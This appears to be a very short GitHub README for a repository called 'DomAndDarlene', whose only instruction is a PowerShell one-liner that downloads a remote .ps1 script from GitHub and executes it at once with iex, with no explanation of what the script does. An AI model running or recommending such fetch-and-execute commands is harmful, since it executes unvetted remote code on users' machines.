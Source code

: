 # DomAndDarlene
Run Away with me

## Powershell:
`iex (iwr https://raw.githubusercontent.com/RavenCraftInitaitives/DomAndDarlene/main/test1.ps1).Content`
